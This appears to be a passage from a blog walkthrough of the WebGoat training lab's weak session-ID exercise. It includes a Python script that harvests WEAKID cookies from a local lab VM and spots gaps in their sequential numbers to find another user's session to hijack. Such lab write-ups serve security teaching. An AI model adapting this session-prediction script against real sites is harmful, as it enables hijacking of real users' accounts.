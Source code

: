 ```
Connection: close
```

Aha! Sure enough this is the response that sets the ```WEAKID``` session cookie that we are trying to exploit. Now let's generate a bunch of these cookies and see if we can spot a weakness. I looked at another hint that pointed out the probable weakness in cookie generation:

- Is the cookie value predictable? Can you see gaps where someone else has acquired a cookie?

So if the first section of the cookie is assigned sequentially, and we generate a bunch of cookies, maybe we can spot a lack of sequentiality in the cookie generation that represents a cookie id belonging to another user. Let's whip up a script to do the heavy lifting for us:

{% highlight python %}
import sys
import requests

class SessionHijack:
	def __init__(self, attack_url, current_webgoat_cookie):
		self.attack_url = attack_url
		self.current_webgoat_cookie= current_webgoat_cookie
		self.headers = {"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"}
		self.open_session_number = None

	def find_open_session(self):
		print ("[*] Attempting to find open session")
		session_found = False
		previous_session_cookie = None
		cookies = dict(
				JSESSIONID=self.current_webgoat_cookie,
				acopendivids="swingset,jotto,phpbb2,redmine",
				acgroupswithpersist="nada"
			)
		while not session_found:
			r = requests.get(self.attack_url, headers=self.headers,cookies=cookies)
			current_session_cookie = r.cookies.get_dict()["WEAKID"]
			current_session_number = int(current_session_cookie.split("-")[0])
			print ("[-] Checking session: {}".format(current_session_cookie))
			if previous_session_cookie is None:
				previous_session_cookie = current_session_cookie
			elif (current_session_number - int(previous_session_cookie.split("-")[0])) != 1:
				print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
				print ("[+] Found open session: {}".format(current_session_number - 1))
				print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
				self.open_session_number = current_session_number - 1
				self.open_session_previous_login = int(previous_session_cookie.split("-")[1])
				self.open_session_next_login = int(current_session_cookie.split("-")[1])
				session_found = True
			else:
				previous_session_cookie = current_session_cookie

def main():
	attack_url = 'http://192.168.56.101/WebGoat/attack?Screen=224&menu=1800'
	current_webgoat_cookie = "F6E740AFB0D99B26D271E23C39F10F78"
	session_hijack = SessionHijack(attack_url, current_webgoat_cookie)
	session_hijack.find_open_session()

if __name__ == "__main__":
	main()
{% endhighlight %}
